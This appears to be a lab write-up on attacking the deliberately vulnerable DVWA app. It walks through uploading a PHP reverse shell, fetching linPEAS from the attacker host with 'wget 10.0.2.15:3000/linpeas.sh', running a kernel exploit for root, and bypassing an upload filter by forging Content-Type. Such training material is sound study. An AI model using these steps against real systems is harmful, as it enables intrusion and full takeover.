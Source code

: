 # Post Exploitation and Privilege Escalation

### Reverse Shell in DVWA (low security)

* Find a reverse shell to use

Since the DVWA is written in PHP, we will have to use a PHP based reverse shell. The first result after a Google search [is the pentestingmonkey revrse shell])(https://github.com/pentestmonkey/php-reverse-shell).

We will need to clone the repo:
![Screenshot 2022-03-10 164630](https://user-images.githubusercontent.com/19424915/157690757-aef2721f-d59c-472a-a9e0-e4defd4cd045.png)

* Adjust the Reverse Shell to match our demands

We will first need to find out the attack machine (Kali) IP address:
![Screenshot 2022-03-10 165807](https://user-images.githubusercontent.com/19424915/157691425-980327f4-cce9-4bd3-b674-0f64511ece2f.png)

Then, we can edit the revese shell code with our IP address and the port we will be listening to:
![Screenshot 2022-03-10 171526](https://user-images.githubusercontent.com/19424915/157692165-ca94d8d0-1a7c-4b69-8af7-3c3e25ed6d3b.png)

* Acheive Reverse Shell

We need to start a netcat instace on our attack machine which is going to listent to the port we have already specified in the Reverse Shell code - in our case "12345".
![Screenshot 2022-03-10 172410](https://user-images.githubusercontent.com/19424915/157695024-a57e8bdf-d0b3-484f-8da1-2f4cf17ffc84.png)

Once we have a listener up and ready we can upload and start the Reverse Shell.
![Screenshot 2022-03-10 172219](https://user-images.githubusercontent.com/19424915/157695200-99dd92b1-26fc-4fe6-8bb5-3cbc7a66a602.png)
![Screenshot 2022-03-10 172443](https://user-images.githubusercontent.com/19424915/157695224-d5e75372-c7a0-4c0a-8eaa-8927eb50b030.png)

As a result, we acheive remote access to the atacked machine (DVWA) terminal.
![Screenshot 2022-03-10 172505](https://user-images.githubusercontent.com/19424915/157695658-6ac33e32-d544-488f-a1d2-327bb03c730c.png)

### Find out DVWA vulnerabilities

* Get linPEAS

We will need a tool which will be responsible for giving us a vulnarability report for DVWA. We can user linPEAS to tackle this chellenge.
![Screenshot 2022-03-10 174233](https://user-images.githubusercontent.com/19424915/157699350-26f92e17-573d-415b-8e8c-ffe975460e9c.png)
![Screenshot 2022-03-10 174458](https://user-images.githubusercontent.com/19424915/157699369-7c765eb6-ff8f-43f8-a7ca-4941616a01cf.png)

* Upload linPEAS on DVWA

Now, we will have to somehow upload the linpeas script on our attacked machine. We can acheive this by serving the directory with the desired script file and than we can download it from the DVWA reverse shell.

For serving the linPEAS directory we can use a simple python http server.
![Screenshot 2022-03-10 220737](https://user-images.githubusercontent.com/19424915/157745874-676200e1-8acd-4b30-ace2-6ac6cd45c9d0.png)

Using the reverse shell we can download the `linpeas.sh` file from our http server. In our case, since the server listens on port `3000`, we will have to run `wget 10.0.2.15:3000/linpeas.sh`. If we try to simply run the command, we will receive a `permission denied` error, which obviously means that our user (`nobody`) cannot write in the current directory. So, we will need to find a directory where we can have write privileges. The most common linux directory with such description is the `/tmp` directory. It is used for files that are temporarily required by the system (Linux based). Which mean that most probably this directory will allow us to write in it. We can verify that by running `ls -la` which will list us the directories and their permissions.

![Screenshot 2022-03-11 002352](https://user-images.githubusercontent.com/19424915/157764788-cee07e81-3e0d-49bb-8d60-3e0126a60a58.png)

Since we have found a place to write, we can step further and download the script in the `/tmp` dir.

![Screenshot 2022-03-10 183107](https://user-images.githubusercontent.com/19424915/157765177-69091530-cb95-40c3-bc9f-70bd5e29a81a.png)

We have the script we need, we can go and just run it with `./linpeas.sh`. However, we again hit a `permission denied` error. Running `ls -la` we can observe that the only privileges we have are `w` (write) and `r` (read), but we have no `x` (execute). So, we must add it - `chmod +x linpeas.sh`.

![Screenshot 2022-03-10 215055](https://user-images.githubusercontent.com/19424915/157766026-9cf5cda3-2fdc-4822-9dd3-84b04d5671aa.png)
 
 Finally, we can run the script and analyze the result. The report is еxhaustive and contains almost everything we need to know about the attacked machine.
 
 ![Screenshot 2022-03-10 215400](https://user-images.githubusercontent.com/19424915/157766375-a3d6b611-7e51-4b95-b330-b191ca8ecac8.png)

### Most probable exploits

In order to find out the most probable exploits, we can use a great tool called [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester). 

We can use the same approach as we used for the linPEAS script. We will need to:

1. Clone the repo from github;

![Screenshot 2022-03-11 160025](https://user-images.githubusercontent.com/19424915/157884600-c7d9bff5-c0d0-4a5b-900b-582760b2bf5b.png)
![Screenshot 2022-03-11 160141](https://user-images.githubusercontent.com/19424915/157884636-b0050c83-8129-48b7-913f-295538a3514e.png)

2. Serve the directory with the file we need;

![Screenshot 2022-03-11 160510](https://user-images.githubusercontent.com/19424915/157884821-14da417f-e26a-402b-9372-3eb7cbd82d70.png)

3. Download the script in the `/tmp` dir of the DVWA and make sure that we have the correct privileges to execute the file;

![Screenshot 2022-03-11 160728](https://user-images.githubusercontent.com/19424915/157885169-4ccb5522-542c-4192-9f6e-1bf5814bc457.png)

Finally, we can run the `linux-exploit-suggester.sh` script and analyze the results.

![Screenshot 2022-03-11 160912](https://user-images.githubusercontent.com/19424915/157885590-ef4f5d04-bd5b-4708-a72e-ce0e26997a9a.png)

As we can observe there are three `highly probable` exploits: `dirtycow 2`, `rds` and `can_bcm`.

### Escalate Privilege

Now, we can try to exploit and escalate our privilige on the attcked machine. We will try it by using `rds` exploit.

There are number of github repos containing different kernel exploits. We will be using [kernel-exploits](https://github.com/lucyoa/kernel-exploits). There is a `rds` executable file which could be direcly downloaded.

![Screenshot 2022-03-11 234036](https://user-images.githubusercontent.com/19424915/157975721-cfcb7ec1-7e2e-4d96-981d-052e610fcbd4.png)

We will have to simply transfer the file on the attcked machine and run it.

![Screenshot 2022-03-11 235647](https://user-images.githubusercontent.com/19424915/157975959-d3ef0b97-7950-49be-b4aa-66912e618e6c.png)

![Screenshot 2022-03-11 164128](https://user-images.githubusercontent.com/19424915/157975980-e8e1c30e-50b1-4318-a804-88ba60086da1.png)

![Screenshot 2022-03-11 164252](https://user-images.githubusercontent.com/19424915/157975994-72563ef5-c813-4dc3-b104-3ab797510939.png)

Great news! We have gained `root` user access to the attacked machine.

### Reverse Shell in DVWA (medium security)

We will use the same approach as we used for the low security case. We will need to somehow upload a reverse shell script in order to gain a remote access to the attacked machine. However, since the security level is higher, we will need to find a more innovative way to do that.

I have tried a couple of approaches to bypass the validation. First, tried to upload a normal `.jpg` file to verify the correct file type.

![Screenshot 2022-03-12 004004](https://user-images.githubusercontent.com/19424915/158017947-958faff9-00cc-481b-9754-2dd87bbc9bca.png)

Then I tried to: 
1. Upload a file with a couple of extensions - `php-reverse-shell.img.txt.php`; 
2. Upload a file with some capital letters in the extension - `php-reverse-shell.PHp`
3. Upload a file with `;` and `\` separators - `image.jpg;php-reverse-shell.php`, `image.jpg\php-reverse-shell.php`.

None of the above approaches was successful.

Finally I tried to override the `Content-Type` of the `POST` http request which is resposible for uploading the file. To acheive that I did use `Burp`.

First, I had to intersept the `POST` request which uplaods the `php-reverse-shell.php` file.

![Screenshot 2022-03-12 023514](https://user-images.githubusercontent.com/19424915/158019691-e0ac683c-c657-408b-845f-fdbaef2ba8c5.png)

As we can observe, the content type of the request body is `application/x-php`. I had to override it with `image/jpeg`. To acheive that, sent the intersepted request to the `repeater` and just edited the `Content-Type` field.

![Screenshot 2022-03-12 023607](https://user-images.githubusercontent.com/19424915/158019809-d6d25cc9-7c89-4d01-acde-7aa2e413a9c9.png)

Sending the the editted request leads to a successful upload of the file to the server. Which means that the server validates only the `Content-Type` of the http request.

![Screenshot 2022-03-12 023637](https://user-images.githubusercontent.com/19424915/158019928-82c02d9b-6d4f-4caa-98d0-9ae6ff541307.png)

Now, we can navigate to the file and gain a remote access to the DVWA. Of course, we need to have a `netcat` listener running. 

![Screenshot 2022-03-12 023728](https://user-images.githubusercontent.com/19424915/158020050-baff31f0-db8d-438a-b62d-5a6f4e3dce69.png)

